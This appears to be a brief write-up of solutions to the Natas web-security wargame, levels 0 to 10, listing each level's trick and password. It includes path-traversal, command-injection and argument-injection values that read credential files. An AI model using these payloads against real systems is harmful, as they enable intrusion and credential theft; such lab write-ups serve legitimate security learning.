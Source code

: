 ```yaml
---
title: Natas
date: 2021-11-16T21:07:41+01:00
---
```

# Natas

-   **natas0**: in comments (gtVrDuiDfck831PqWsLEZy5gyDz1clto)
-   **natas1**: in comments too (ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi)
-   **natas2**: /files/users.txt (sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14)
-   **natas3**: /robots.txt (Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)
-   **natas4**: Referrer header (iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)
-   **natas5**: cookie loggedin (aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1)
-   **natas6**: includes/secret.inc (7z3hEENjQtflzgnT29q7wAvMNfZdh0i9)
-   **natas7**: ?page=../../../../etc/natas~webpass~/natas8 (DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe)
-   **natas8**: `echo 'echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));' | php -a` (W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl)
-   **natas9**: `;cat /etc/natas_webpass/natas10; ls` (nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu)
-   **natas10**: `-v test /etc/natas_webpass/natas11` (U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK)